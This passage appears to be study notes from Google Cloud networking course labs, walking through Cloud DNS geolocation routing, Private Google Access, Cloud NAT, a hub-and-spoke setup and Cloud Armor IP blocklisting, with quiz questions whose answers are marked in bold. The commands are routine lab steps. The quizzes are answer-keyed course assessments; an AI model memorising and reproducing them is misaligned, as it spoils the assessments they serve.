##### Getting back to Cloud Shell

- Once you have run the test multiple times, exit the client VM in Europe by typing "`exit`" in the VM's command prompt. This will bring you back to the Cloud Shell console.

##### Testing from the client VM in us-east1

Now perform the same test from the client VM in the US.

1. Use the `gcloud` command below to SSH into the us-client-vm:

```
gcloud compute ssh us-client-vm --zone "Zone 1" --tunnel-through-iap
```

Copied!

1. Use the `curl` command to access `geo.example.com`:

```
for i in {1..10}; do echo $i; curl geo.example.com; sleep 6; done
```

Copied!

1. Now analyze the output to see which server is responding to the request. The client should always receive a response from a server in the client's region. The expected output is "Page served from: `<filled at lab start>`".
2. Once you have run the test multiple times, exit the client VM in the US by typing "`exit`" in the VM's command prompt.

##### Testing from the client VM in Asia

So far you have tested the setup from the United States and Europe. You have servers running in both the regions and have matching record sets for both the regions in Cloud DNS routing policy. There is no matching policy item for the region within Asia (selected earlier) in the Cloud DNS routing policy.

The Geolocation policy will apply a "nearest" match for source location when the source of the traffic doesn't match any policy items exactly. This means that the Asia client should be directed to the nearest web server.

In this section, you will resolve the `geo.example.com` domain from the client VM in Asia and will analyze the response.

1. SSH into the asia-client-vm. For `<SELECTED-ZONE>`, use the zone that you used to create the Asia client.

```
gcloud compute ssh asia-client-vm --zone <SELECTED-ZONE> --tunnel-through-iap
```

Copied!

1. Then access geo.example.com:

```
for i in {1..10}; do echo $i; curl geo.example.com; sleep 6; done
```

Copied!

1. Analyze the output to see which server is responding to the request. Since there is no policy item for any of the Asia regions, Cloud DNS will direct the client to the nearest server.
2. Once you have run the test multiple times, exit the client VM in Asia by typing "`exit`" in the VM's command prompt.

#### Task 9. Delete lab resources

Although all resources you used in this lab will be deleted when you finish, it is good practice to remove resources you no longer need to avoid unnecessary charges.

- The following `gcloud` commands will delete all the resources that were created in the lab. (Note that `SELECTED-ZONE` is the Asia zone that you wrote down earlier.)

```
#delete VMS
gcloud compute instances delete -q us-client-vm --zone "ZONE"

gcloud compute instances delete -q us-web-vm --zone "ZONE"

gcloud compute instances delete -q europe-client-vm --zone "Zone 2"

gcloud compute instances delete -q europe-web-vm --zone "Zone 2"

gcloud compute instances delete -q asia-client-vm --zone SELECTED-ZONE

#delete FW rules
gcloud compute firewall-rules delete -q allow-http-traffic

gcloud compute firewall-rules delete fw-default-iapproxy

#delete record set
gcloud dns record-sets delete geo.example.com --type=A --zone=example

#delete private zone
gcloud dns managed-zones delete example
```

Copied!

#### Congratulations

In this lab, you configured and used Cloud DNS routing policies with Geolocation routing policy. You also verified the configuration and behavior of the Cloud DNS routing policy by observing the HTTP response when accessing the web servers.

### Quiz

1. To set up hybrid deployments for DNS resolution, which type of DNS policy should you use?
- **Server policy**
- Response policy
- Traffic policy
- Routing policy

2. You must create a VM that has an IPv6 address. How do you do it?
- Create a single-stack subnet, and create the VM with an IPv6 address.
- Create a single-stack subnet with IPv6 enabled, and then create the VM with an IPv4 address.
- **Create a dual-stack subnet, and create the VM with an IPv6 address.**
- Create a single-stack network, and create the VM with an IPv6 address.

## Private Connection Options

### LAB - Implement Private Google Access and Cloud NAT

Overview

In this lab, you implement Private Google Access and Cloud NAT for a VM instance that doesn't have an external IP address. Then, you verify access to public IP addresses of Google APIs and services and other connections to the internet.

VM instances without external IP addresses are isolated from external networks. Using Cloud NAT, these instances can access the internet for updates and patches, and in some cases, for bootstrapping. As a managed service, Cloud NAT provides high availability without user management and intervention.

Objectives

In this lab, you learn how to perform the following tasks:

- Configure a VM instance that doesn't have an external IP address

- Connect to a VM instance using an Identity-Aware Proxy (IAP) tunnel

- Enable Private Google Access on a subnet

- Configure a Cloud NAT gateway

- Verify access to public IP addresses of Google APIs and services and other connections to the internet


For each lab, you get a new Google Cloud project and set of resources for a fixed time at no cost.

1. Sign in to Qwiklabs using an **incognito window**.

2. Note the lab's access time (for example, `1:15:00`), and make sure you can finish within that time.
   There is no pause feature. You can restart if needed, but you have to start at the beginning.

3. When ready, click **Start lab**.

4. Note your lab credentials (**Username** and **Password**). You will use them to sign in to the Google Cloud Console.

5. Click **Open Google Console**.

6. Click **Use another account** and copy/paste credentials for **this** lab into the prompts.
   If you use other credentials, you'll receive errors or **incur charges**.

7. Accept the terms and skip the recovery resource page.

   **Note:** Do not click **End Lab** unless you have finished the lab or want to restart it. This clears your work and removes the project.

#### Task 1. Create the VM instance

Create a VPC network with some firewall rules and a VM instance that has no external IP address, and connect to the instance using an IAP tunnel.

Create a VPC network and firewall rules

First, create a VPC network for the VM instance and a firewall rule to allow SSH access.

1. In the Cloud Console, on the **Navigation menu** (), click **VPC network > VPC networks**.

2. Click **Create VPC Network**.

3. For **Name**, type **privatenet**.

4. For **Subnet creation mode**, click **Custom**.

5. In **New Subnet** specify the following, and leave the remaining settings as their defaults:

    | Property           | Value (type value or select option as specified) |
    | :----------------- | :----------------------------------------------- |
    | Name               | privatenet-us                                    |
    | Region             | `REGION`                                         |
    | IPv4 address range | 10.130.0.0/20                                    |

    **Note:** Don't enable **Private Google access** yet!

    

6. Click **Done**.

7. Click **Create** and wait for the network to be created.

8. In the left pane, click **Firewall**.

9. Click **Create Firewall Rule**.

10. Specify the following, and leave the remaining settings as their defaults:

    | Property            | Value (type value or select option as specified) |
    | :------------------ | :----------------------------------------------- |
    | Name                | privatenet-allow-ssh                             |
    | Network             | privatenet                                       |
    | Targets             | All instances in the network                     |
    | Source filter       | IPv4 ranges                                      |
    | Source IPv4 ranges  | 35.235.240.0/20                                  |
    | Protocols and ports | Specified protocols and ports                    |

11. For **tcp**, click the checkbox and specify port **22**.

12. Click **Create**.

     **Note:** In order to connect to your private instance using SSH, you need to open an appropriate port on the firewall. [IAP connections](https://cloud.google.com/iap/docs/using-tcp-forwarding) come from a specific set of IP addresses (**35.235.240.0/20**). Therefore, you can limit the rule to this CIDR range.

     Create the VM instance with no public IP address

     

1. In the Cloud Console, on the **Navigation menu** (), click **Compute Engine > VM instances**.

2. Click **Create Instance**.

3. On the **Machine configuration** page, specify the following, and leave the remaining settings as their defaults:

 | Property     | Value (type value or select option as specified) |
 | :----------- | :----------------------------------------------- |
 | Name         | vm-internal                                      |
 | Region       | `REGION`                                         |
 | Zone         | `ZONE`                                           |
 | Series       | E2                                               |
 | Machine type | e2-medium (2vCPU, 1 core, 4 GB memory)           |

4. Click **OS and storage**.

5. If the **Image** shown is not **Debian GNU/Linux 12 (bookworm)**, click **Change** and select **Debian GNU/Linux 12 (bookworm)**, and then click **Select**.

6. Click **Networking**.

7. In **Network interfaces**, edit the network interface by specifying the following:

 | Property              | Value (type value or select option as specified) |
 | :-------------------- | :----------------------------------------------- |
 | Network               | privatenet                                       |
 | Subnetwork            | privatenet-us                                    |
 | External IPv4 address | None                                             |

**Note:** The default setting for a VM instance is to have an ephemeral external IP address. This behavior can be changed with a policy constraint at the organization or project level. To learn more about controlling external IP addresses on VM instances, refer to the [external IP address documentation](https://cloud.google.com/compute/docs/ip-addresses/reserve-static-external-ip-address#disableexternalip).


8. Click **Done**.

9. Click **Create**, and wait for the VM instance to be created.

10. On the **VM instances** page, verify that the **External IP** of **vm-internal** is **None**.

Click **Check my progress** to verify the objective.

Create the VM instance


SSH to vm-internal to test the IAP tunnel

1. In the Cloud Console, click **Activate Cloud Shell** ().

2. If prompted, click **Continue**.

3. To connect to **vm-internal**, run the following command:

   

```
gcloud compute ssh vm-internal --zone ZONE --tunnel-through-iap
```

4. If prompted click **Authorize**

5. If prompted to continue, type **Y**.

6. When prompted for a passphrase, press **ENTER**.

7. When prompted for the same passphrase, press **ENTER**.

Did the command prompt change to @vm-internal? 

- True
- False

8. To test the external connectivity of **vm-internal**, run the following command:

``` 
ping -c 2 www.google.com
```

This should not work because **vm-internal** has no external IP address!

9. Wait for the `ping` command to complete.

10. To return to your Cloud Shell instance, run the following command:

```
 exit
```

**Note:** When instances do not have external IP addresses, they can only be reached by other instances on the network via a managed VPN gateway or via a Cloud IAP tunnel. Cloud IAP enables context-aware access to VMs via SSH and RDP without bastion hosts. To learn more about this, see the blog post [Cloud IAP enables context-aware access to VMs via SSH and RDP without bastion hosts](https://cloud.google.com/blog/products/identity-security/cloud-iap-enables-context-aware-access-to-vms-via-ssh-and-rdp-without-bastion-hosts).

#### Task 2. Enable Private Google Access

VM instances that have no external IP addresses can use Private Google Access to reach external IP addresses of Google APIs and services. By default, Private Google Access is disabled on a VPC network.

Create a Cloud Storage bucket

Create a Cloud Storage bucket to test access to Google APIs and services.

1. In the Cloud Console, on the **Navigation menu** (), click **Cloud Storage > Buckets**.

2. Click **Create**.

3. Specify the following, and leave the remaining settings as their defaults:

 | Property      | Value (type value or select option as specified) |
 | :------------ | :----------------------------------------------- |
 | Name          | *Enter a globally unique name*                   |
 | Location type | Multi-region                                     |

4. Click **Create**. If prompted to enable public access prevention, ensure it is checked and cick **Confirm**. Note the name of your storage bucket.

5. Store the name of your bucket in an environment variable:

```
 export MY_BUCKET=[enter your bucket name here]
```

6. Verify it with echo:

```
 echo $MY_BUCKET
```

Copy an image file into your bucket

Copy an image from a public Cloud Storage bucket to your own bucket.


1. In Cloud Shell, run the following command:

```
 gcloud storage cp gs://cloud-training/gcpnet/private/access.svg gs://$MY_BUCKET
```

2. In the Cloud Console, click your bucket name to verify that the image was copied.

You can click on the name of the image in the Cloud Console to view an example of how Private Google Access is implemented.

Access the image from your VM instance

Currently, which of your VM instances can access the image from your bucket?

- vm-internal

- Cloud Shell


1. In Cloud Shell, to try to copy the image from your bucket, run the following command:

```
 gcloud storage cp gs://$MY_BUCKET/*.svg .
```

This should work because Cloud Shell has an external IP address!

2. To connect to **vm-internal**, run the following command:

```
 gcloud compute ssh vm-internal --zone ZONE --tunnel-through-iap
```

3. If prompted, type **Y** to continue.

4. Store the name of your bucket in an environment variable:

```
 export MY_BUCKET=[enter your bucket name here]
```

5. Verify it with echo:

```
 echo $MY_BUCKET
```

6. Try to copy the image to **vm-internal**, run the following command:

```
 gcloud storage cp gs://$MY_BUCKET/*.svg .
```

This should not work: **vm-internal** can only send traffic within the VPC network because Private Google Access is disabled (by default).

7. Press **Ctrl+Z** to stop the request.


Enable Private Google Access

Private Google Access is enabled at the subnet level. When it is enabled, instances in the subnet that only have private IP addresses can send traffic to Google APIs and services through the default route (0.0.0.0/0) with a next hop to the default internet gateway.

1. In the Cloud Console, on the **Navigation menu** (), click **VPC network > VPC networks**.

2. Click **privatenet** to open the network.

3. Click **Subnets**, and then click **privatenet-us**.

4. Click **Edit**.

5. For **Private Google access**, select **On**.

6. Click **Save**.

Click **Check my progress** to verify the objective.

Create a Cloud Storage bucket and Enable Private Google Access

**Note:** Enabling Private Google Access is as simple as selecting **On** within the subnet!

7. Run the following command, in **Cloud Shell** for **vm-internal**, to try to copy the image to **vm-internal**.

```
 gcloud storage cp gs://$MY_BUCKET/*.svg .
```

This should work because **vm-internal**'s subnet has **Private Google Access** enabled!

8. To return to your Cloud Shell instance, run the following command:

```
 exit
```

9. Again type exit if needed to return to your Cloud Shell instance.

```
 exit
```

**Note:** To view the eligible APIs and services that you can use with Private Google Access, see supported services in the [Private access options for services Guide](https://cloud.google.com/vpc/docs/private-access-options#pga-supported).


#### Task 3. Configure a Cloud NAT gateway

Although **vm-internal** can now access certain Google APIs and services without an external IP address, the instance cannot access the internet for updates and patches. Configure a Cloud NAT gateway, which allows **vm-internal** to reach the internet.

Try to update the VM instances

1. In **Cloud Shell**, to try to re-synchronize the package index, run the following:

```
 sudo apt-get update
```

The output should finish like this (**example output**):

```
 ...
 Reading package lists... Done
```

This should work because **Cloud Shell** has an external IP address!

2. To connect to **vm-internal**, run the following command:

```
 gcloud compute ssh vm-internal --zone ZONE --tunnel-through-iap
```

3. If prompted, type **Y** to continue.

4. To try to re-synchronize the package index of **vm-internal**, run the following command:

```
 sudo apt-get update
```

This should only work for Google Cloud packages because **vm-internal** only has access to Google APIs and services!

5. Press **Ctrl+C** to stop the request.

Configure a Cloud NAT gateway

Cloud NAT is a regional resource. You can configure it to allow traffic from all ranges of all subnets in a region, from specific subnets in the region only, or from specific primary and secondary CIDR ranges only.


1. On the Google Cloud console title bar, type **Network services** in the **Search**field, then click **Network services** in the **Products & Page** section.

2. On the **Network service** page, click **Pin** next to Network services.

3. Click **Cloud NAT**.

4. Click **Get started** to configure a NAT gateway.

5. Specify the following:

 | Property     | Value (type value or select option as specified) |
 | :----------- | :----------------------------------------------- |
 | Gateway name | nat-config                                       |
 | Network      | privatenet                                       |
 | Region       | `REGION`                                         |

6. For **Cloud Router**, select **Create new router**.

7. For **Name**, type **nat-router**

8. Click **Create**.

**Note:** The NAT mapping section allows you to choose the subnets to map to the NAT gateway. You can also manually assign static IP addresses that should be used when performing NAT. Do not change the NAT mapping configuration in this lab.

9. Click **Create**.

10. Wait for the gateway's status to change to **Running**.

Click **Check my progress** to verify the objective.

Configure a Cloud NAT gateway


Verify the Cloud NAT gateway

It may take up to 3 minutes for the NAT configuration to propagate to the VM, so wait at least a minute before trying to access the internet again.


1. In **Cloud Shell** for **vm-internal**, to try to re-synchronize the package index of **vm-internal**, run the following command:

```
 sudo apt-get update
```

The output should finish like this (**example output**):

```
 ...
 Reading package lists... Done
```

This should work because **vm-internal** is using the NAT gateway!

2. To return to your Cloud Shell instance, run the following command:

```
 exit
```

**Note:** The Cloud NAT gateway implements outbound NAT, but not inbound NAT. In other words, hosts outside of your VPC network can only respond to connections initiated by your instances; they cannot initiate their own, new connections to your instances via NAT.

#### Task 4. Configure and view logs with Cloud NAT Logging

Cloud NAT logging](https://cloud.google.com/nat/docs/monitoring) allows you to log NAT connections and errors. When Cloud NAT logging is enabled, one log entry can be generated for each of the following scenarios:

- When a network connection using NAT is created.

- When a packet is dropped because no port was available for NAT.

You can opt to log both kinds of events, or just one or the other. Created logs are sent to Cloud Logging.

Enabling logging

If logging is enabled, all collected logs are sent to Cloud Logging by default. You can filter these so that only certain logs are sent.

You can also specify these values when you create a NAT gateway or by editing one after it has been created. The following directions show how to enable logging for an existing NAT gateway.


1. In the Google Cloud Console, on the **Navigation menu** (), click **Network services** > **Cloud NAT**.

2. Click on the `nat-config` gateway and then click **Edit**.

3. Click the **Advanced configurations** dropdown to open that section.

4. For **Logging**, select **Translation and errors** and then click **Save**.


NAT logging in Cloud Logging

Now that you have set up Cloud NAT logging for the `nat-config` gateway, let's find out where we can view our logs.


1. Click on `nat-config` to expose its details. Then click on the **View in Logs Explorer**.

2. This will open a new tab with **Logs Explorer**.

You will see that there aren't any logs yet—that's because we just enabled this feature for the gateway.

**Note:** Keep this tab open and return to your other Google Cloud Console tab.


Generating logs

As a reminder, Cloud NAT logs are generated for the following sequences:

- When a network connection using NAT is created.

- When a packet is dropped because no port was available for NAT.

Let's connect the host to the internal VM again to see if any logs are generated.


1. In **Cloud Shell** for **vm-internal**, to try to re-synchronize the package index of **vm-internal**, run the following command:

```
 gcloud compute ssh vm-internal --zone ZONE --tunnel-through-iap
```

2. If prompted, type **Y** to continue.

3. Try to re-synchronize the package index of **vm-internal** by running the following:

```
 sudo apt-get update
```

The output should look like this (**example output**):

```
 ...
 Reading package lists... Done
```


4. To return to your Cloud Shell instance, run the following command:

```
 exit
```

Let's see if opening up this connection revealed anything new in our logs.


Viewing Logs


- Return to your Logs Explorer tab, and in the navigation menu, click **Logs Explorer**.

You should see two new logs that were generated after connecting to the internal VM.

**Note:** You may need to wait for a few minutes. If you are still unable to see the logs, repeat step 1 to step 4, from the **Generating logs** section, and then refresh the logging page. 

As we see, the logs give us details on the VPC network we connected to and the connection method we used. Feel free to expand different labels and details.


Task 5. Review

You created **vm-internal**, an instance with no external IP address, and connected to it securely using an IAP tunnel. Then you enabled Private Google Access, configured a NAT gateway, and verified that **vm-internal** can access Google APIs and services and other public IP addresses.

VM instances without external IP addresses are isolated from external networks. Using Cloud NAT, these instances can access the internet for updates and patches, and in some cases, for bootstrapping. As a managed service, Cloud NAT provides high availability without user management and intervention.

IAP uses your existing project roles and permissions when you connect to VM instances. By default, instance owners are the only users that have the **IAP Secured Tunnel User**role.

For how to allow other users to access your VMs using IAP tunneling, see, in the Cloud Architecture Center, [Grant access to additional users Guide](https://cloud.google.com/solutions/building-internet-connectivity-for-private-vms#grant_access_to_additional_users).


End your lab

When you have completed your lab, click **End Lab**. Google Cloud Skills Boost removes the resources you’ve used and cleans the account for you.

### Quiz

1. You want to provide access to services that you created in a VPC network. The services should be available to other specified VPC networks through endpoints that have internal IP addresses. Some of these VPC networks have subnets with overlapping internal IP addresses. Which product can you use?
- Private services access
- Private Google Access
- **Private Service Connect**
- Cloud NAT

2. To enable Private Google Access for a VPC network:
- Enable it on the VPC network.
- Enable it on the VPC network, on the desired subnets, and on Cloud Router.
- Enable it on all desired subnets and on Cloud Router.
- **Enable it on all desired subnets in the VPC network.**

3. Private services access automatically configures which Google Cloud product to implement communication between the producer and consumer VPC networks?
- **VPC Network Peering**
- Cloud NAT
- Private Google Access
- Shared VPC

## 

# 05 Networking in Google Cloud: Network Architecture

## Introduction to Network Architecture

### Quiz

1. You are designing a new network infrastructure in Google Cloud to support a global e-commerce application. Which two of the following are key considerations you should prioritize in your network design?

- To justify the need for a new network.

- To create a detailed project timeline.

- **To inform and guide design choices, ensuring the network aligns with organizational goals and constraints.**

- **To ensure high availability and disaster recovery capabilities for the network.**

2. Which of the following practices is LEAST likely to improve network security in Google Cloud?
- Regularly reviewing and updating IAM (Identity and Access Management) permissions.
- Enabling VPC flow logs to monitor network traffic.
- Implementing network firewall rules to control traffic.
- **Assigning public IP addresses to all virtual machines in a VPC.**


## Network Topologies

### LAB - Implementing a Hub and Spoke using NCC

#### Overview

In this lab, you design and implement a classic hub-and-spoke network topology. Your pre-configured environment includes three VPC networks—a central hub and two branches (spoke1 and spoke2). You will create virtual machines (VMs) on each network to test connectivity.

You begin by verifying connectivity between the VMs within and across VPCs. Then, you use NCC to implement a hub and spoke. You retest connectivity to confirm that your hub-and-spoke architecture is fully functional.

#### Objectives

In this lab, you learn how to perform the following tasks:

- Configure VMs in different VPCs.
- Test connectivity between networks before implementing a hub and spoke.
- Use NCC to create a hub and spoke.
- Test connectivity after implementing a hub and spoke.
- Use Network Topology to view metrics for traffic between entities.

#### Setup and requirements

For each lab, you get a new Google Cloud project and set of resources for a fixed time at no cost.

1. Sign in to Qwiklabs using an **incognito window**.
2. Note the lab's access time (for example, `1:15:00`), and make sure you can finish within that time.
   There is no pause feature. You can restart if needed, but you have to start at the beginning.
3. When ready, click **Start lab**.
4. Note your lab credentials (**Username** and **Password**). You will use them to sign in to the Google Cloud Console.
5. Click **Open Google Console**.
6. Click **Use another account** and copy/paste credentials for **this** lab into the prompts.
   If you use other credentials, you'll receive errors or **incur charges**.
7. Accept the terms and skip the recovery resource page.

**Note:** Do not click **End Lab** unless you have finished the lab or want to restart it. This clears your work and removes the project.

#### Task 1. Explore the pre-configured network

The network **hub-vpc** with **hub-subnet**, **spoke1-vpc** with **spoke1-subnet**, and **spoke2-vpc** with **spoke2-subnet** along with firewall rules for **RDP**, **SSH**, and **ICMP**traffic have been configured for you.

- In the Google Cloud console, on the **Navigation menu** (), click **VPC network > VPC networks**.
  Notice the **hub-vpc**, **spoke1-vpc**, and **spoke2-vpc** network with its subnets: **hub-subnet**, **spoke1-subnet**, and **spoke2-subnet**.

  Each Google Cloud project starts with the **default** network. In addition, the **hub-vpc**, **spoke1-vpc**, and **spoke2-vpc** network has been created for you as part of your network diagram.

  You create a VM in **hub-subnet**, **spoke1-subnet**, and **spoke2-subnet**.

#### Explore the firewall rules

1. On the **Navigation menu** (), click **VPC network > Firewall**.
   Notice the **app-allow-icmp** and **app-allow-ssh-rdp** firewall rules.

   These firewall rules have been created for you.

#### Task 2. Create a VM in each VPC

1. On the **Navigation menu**, click **Compute Engine > VM instances**.
2. Click **Create Instance**.
3. Specify **Name** as **hub-vm**.
4. In the left frame, click **Networking**.
5. Under **Network interfaces** , click **default**. From the **Network** dropdown select **hub-vpc**.
6. Click **Create**.

Repeat the process to create a **spoke1-vm** VM in `spoke1-vpc` and a **spoke2-vm** VM in `spoke2-vpc`.

Click **Check my progress** to verify the objective.

Create a VM in each VPC


#### Task 3: Test connectivity

spoke1-vm and spoke2-vm are in two different VPCs. Let us test the connectivity between the two.

1. On the **VM instances** page, for **spoke1-vm**, copy the internal IP address.
2. On the **VM instances** page, for **spoke2-vm**, click **SSH**.
3. Run the following command:

```
ping <internal IP address of spoke1-vm>
```

Copied!

Notice how the ping fails. This should execute and display 100% packet loss. Press **Ctrl+C** to stop the command.

1. Now, SSH into **spoke1-vm** to test the connectivity from **spoke1-vm** to **spoke2-vm**:

```
ping <internal IP address of spoke2-vm>
```

Copied!

Notice how the ping fails. This should execute and display 100% packet loss. Press **Ctrl+C** to stop the command.

#### Task 4: Create a hub and spoke using NCC

Network Connectivity Center lets you create VPC spokes to connect VPC networks together for full mesh connectivity.

1. On the Google Cloud console title bar, type **Network Connectivity Center** in the Search field, then click **Network Connectivity Center** in the **Products & Page**section.
2. Click **Create hub**.
3. Enter **my-hub** for **Hub Name**.
4. Click **Next step**.
5. Click **Add a spoke**.
6. Enter **spoke1** for first **Spoke Name**.
7. Select **VPC network** as the Spoke type.
8. To add a VPC network to the spoke, select **spoke1-vpc**.
9. Click Done.
10. Click **Add a spoke** to add a second spoke,
11. Enter **spoke2** for second **Spoke Name**.
12. Select VPC network as the Spoke type.
13. Choose **spoke2-vpc** as the VPC network for this spoke.
14. Click Done.
15. When you have finished adding spokes, click **Create**.

Click **Check my progress** to verify the objective.

Create a hub and spoke using NCC


#### Task 5. Retest connectivity

VPC spokes reduce the operational complexity of managing the individual pair-wise VPC Network Peering connections through the use of VPC spokes and a centralized connectivity management model. Now you retest the connectivity between the VMs from spokes.

This task has been performed for you at the start of this lab. You will need to SSH into VM and run the following command to setup the environment.

1. On the **Navigation** menu, click **Compute Engine > VM instances**.
2. Select the SSH button next to **spoke1-vm** to SSH into the VM.
3. If prompted "Allow SSH-in-browser to connect to VMs," click **Authorize**.
4. Run the following command:

```
ping -c 3 <internal IP address of spoke2-vm>
```

Copied!

1. Repeat the previous steps for **spoke2-vm**.

#### Task 6. Explore the Network Topology Tool

Network Topology is a visualization tool that shows the topology of your network infrastructure. You can also view metrics and details of network traffic to other Shared VPC networks and inter-region traffic.

For each Network Topology hierarchy, the Google Cloud console displays a single metric for Compute Engine virtual machine (VM) instance entities and region entities, as well as for connections.

1. In the Google Cloud console, go to the Network Topology page.
2. Hover over an entity to display the **Expand** icon for expanding or **Collapse** icon for collapsing.
3. In the Metrics and insights section, select an insight from the options.

#### Congratulations!

In this lab, you implemented a classic hub-and-spoke network topology. You created virtual machines (VMs) on each network to test connectivity.

You started by verifying connectivity between the VMs within and across VPCs. Then, you used NCC to implement a hub and spoke. You retested connectivity to confirm that the hub-and-spoke architecture was fully functional.


### Quiz

1. You are designing a Google Cloud network for a large financial services company with strict security requirements. The network needs to isolate sensitive customer data from other resources and limit communication between specific network segments. Which of the following network topologies would be most suitable for this scenario?
- Hub-and-spoke
- Mesh
- Mirrored
- **Gated ingress and egress**

Correct! This topology allows granular control over incoming and  outgoing traffic, enabling isolation of sensitive data and restriction  of unauthorized communication between segments.

2. You are migrating a large ecommerce company's existing on-premises data center to Google Cloud. The on-premises network consists of geographically dispersed regional offices, each with its own network segment requiring secure isolation. However, central management and communication between all regional offices are critical for business operations. Which network topology would most effectively address these requirements in Google Cloud?
- Mesh
- Mirrored
- Gated ingress and egress
- **Hub-and-spoke**

Correct! This topology establishes a central VPC (the "hub") in Google  Cloud, connecting all regional VPCs ("spokes") securely. This  configuration facilitates centralized management, enforces security  policies, and provides a cost-effective and manageable solution for  migrating the on-premises network while maintaining regional isolation  and communication.


## 

# 06 Networking in Google Cloud: Network Security


## Distributed Denial of Service (DDoS) Protection


### LAB - Configuring Traffic Blocklisting with Google Cloud Armor


#### Overview

HTTP(S) Load balancing is implemented at the edge of Google's network in Google's points of presence (POP) around the world. User traffic directed to an HTTP(S) load balancer enters the POP closest to the user and is then load balanced over Google's global network to the closest backend that has sufficient capacity available.

[Google Cloud Armor](https://cloud.google.com/armor) IP blocklists/allowlists enable you to restrict or allow access to your HTTP(S) load balancer at the edge of the Google Cloud, as close as possible to the user and to malicious traffic. This prevents malicious users or traffic from consuming resources or entering your virtual private cloud (VPC) networks.

In this lab, you will verify that the HTTP load balancer with global backends is deployed. This load balancer is automatically provisioned for you during startup. You will then create a VM to test access to the load balancer. Finally, you will stress test the load balancer and blocklist the stress test IP with Google Cloud Armor.

#### Objectives

In this lab, you will learn how to perform the following tasks:

- Verify that the HTTP load balancer is deployed.
- Create a VM to test access to the HTTP load balancer.
- Use Google Cloud Armor to blocklist an IP address and restrict access to an HTTP load balancer.

#### Setup and requirements

For each lab, you get a new Google Cloud project and set of resources for a fixed time at no cost.

1. Sign in to Qwiklabs using an **incognito window**.
2. Note the lab's access time (for example, `1:15:00`), and make sure you can finish within that time.
   There is no pause feature. You can restart if needed, but you have to start at the beginning.
3. When ready, click **Start lab**.
4. Note your lab credentials (**Username** and **Password**). You will use them to sign in to the Google Cloud Console.
5. Click **Open Google Console**.
6. Click **Use another account** and copy/paste credentials for **this** lab into the prompts.
   If you use other credentials, you'll receive errors or **incur charges**.
7. Accept the terms and skip the recovery resource page.

**Note:** Do not click **End Lab** unless you have finished the lab or want to restart it. This clears your work and removes the project.

#### Task 1. Verify the HTTP load balancer is deployed

In this task, you verify that the global HTTP load balancer is deployed. The HTTP load balancer is automatically created when you start the lab. This will be used for a simple web application. This application is deployed to demonstrate the capabilities of Google Cloud Armor.

1. On the Google Cloud Console title bar, click **Activate Cloud Shell** (). If prompted, click **Continue**.
2. Verify that the load balancer is deployed and registered by executing the following command:

```
gcloud compute backend-services get-health web-backend --global
```

Copied!

**Note:** Rerun this command and wait until this command returns that three instances are HEALTHY. You can also monitor it in the console (**Navigation menu > View All Products > Network services > Load balancing**).

1. Retrieve the load balancer IP address by executing the following command:

```
gcloud compute forwarding-rules describe web-rule --global
```

Copied!

1. Copy the value for the **IPAddress** property.

Keep track of this IP address. It will also be used in a later section.

1. Open a new browser tab and try to visit that IP address `http://{IP_ADDRESS}`.

Replace `{IP_ADDRESS}` with the IP address of the load balancer. Do not include the curly braces when you are asked to provide the IP address.

If you get a message that the IP address doesn't support a secure connection, click **Continue to site**.

Keep refreshing the page until you see a page with a message similar to this:


**Note:** It might take a couple of minutes to access the HTTP load balancer. In the meantime, you might get 404 or 502 errors. Keep trying until you see the page of one of the backends.

1. In Cloud shell, use the following `curl` command to access the IP address:

```
while true; do curl -m1 {IP_ADDRESS}; done
```

Copied!

The responses will be from backends that have been created in different zones.

1. Press **CTRL+C** to stop the previous command.

#### Task 2. Create a VM to test access to the load balancer

1. Go to **Navigation menu > Compute Engine**.

2. Click **Create Instance**.

3. On the **Machine configuration** page, enter the following values:

   | **Field** | **Value** (type or select) |
   | :-------- | :------------------------- |
   | Name      | access-test                |
   | Region    | `REGION`                   |
   | Zone      | `ZONE`                     |

4. Leave everything else at the default and click **Create**.

5. Once launched, click the **SSH** button to connect to the instance.

6. Run the following command on the instance to access the load balancer:

```
curl -m1 {IP_ADDRESS}
```

Copied!

The output should look similar to:

```
<!doctype html><html><body><h1>Web server</h1><h2>This server is in zone: projects/104716457480/zones/ZONE</h2> </body></html>
```

Click *Check my progress* to verify the objective.

Create a VM to test access to the load balancer.


#### Task 3. Create a security policy with Google Cloud Armor

#### Blocklist the access-test VM

**Note:** You will now create a security policy to blocklist access to the load balancer from the access-test VM. This policy can be used to block access from a malicious client. There are ways to identify the external IP address of a client trying to access your HTTP load balancer. For example, you could examine traffic captured by VPC Flow Logs in BigQuery to determine a high volume of incoming requests.

1. Go to **Navigation menu > Compute engine**, click **access-test** VM and scroll down to **Network interface** and then copy the **External IP address**.
2. From the **Navigation menu** > **View All Products**. Go to **Networking** section, click **Network Security** > **Cloud Armor policies**.
3. Click **Create policy**.
4. Provide a name as **blocklist-access-test** and set the **Default rule action** to **Allow**.
5. Click **Next step**.
6. Click **Add rule**.
7. Set the following values, leave all other values at their defaults:

| **Property**  | **Value**                                       |
| ------------- | ----------------------------------------------- |
| Mode          | Basic mode (IP addresses/ranges only)           |
| Match         | Enter the External IP of the **access-test** VM |
| Action        | Deny                                            |
| Response code | 404 (Not Found)                                 |
| Priority      | 1000                                            |

**Note:** Notice that you are setting the Deny status to 404.

1. Click **SAVE CHANGE TO RULE**.
2. Click **Next step**.
3. Click **+ Add Target**.
4. For **Type 1**, select **Backend service (external application load balancer)**.
5. For **Backend Service target 1**, select **web-backend**.
6. Click **Next step**.
7. Click **Done**.
8. Click **Create policy**.

**Note:** Alternatively, you could set the default rule to Deny and only allow list traffic from authorized users/IP addresses.

Wait for the policy to be created before moving to the next step.

#### Verify the security policy

1. Return to the SSH session of the access-test VM.
2. Run the `curl` command again on the instance to access the load balancer:

```
curl -m1 {IP_ADDRESS}
```

Copied!

The output should look as follows.

**Output:**

```
<!doctype html><meta charset="utf-8"><meta name=viewport content="width=device-width, initial-scale=1"><title>404</title>404 Not Found
```

**Note:** It might take a couple of minutes for the security policy to take affect. If you are able to access the backends, keep trying until you get the **404** Not Found error.

1. Try accessing the load balancer IP from your local browser. You should still be able to access it as we have only blocklisted the access-test VM.

Click *Check my progress* to verify the objective.

Create a security policy with Google Cloud Armor.


#### Task 4. View Google Cloud Armor logs

1. In the Console, from the **Navigation menu** > **View All Products**. Go to **Networking** section, click **Network Security** > **Cloud Armor policies**.
2. Click **blocklist-access-test**.
3. Click **Logs**.
4. Click **View policy logs** and go to the latest logs. If prompted, close the notification.
5. Locate a log with a **404** and expand the log entry.
6. Expand **httpRequest**.
7. The request should be from the **access-test** VM IP address.
8. Explore some of the other log entries.

#### Congratulations!

In this lab, you have done the following:

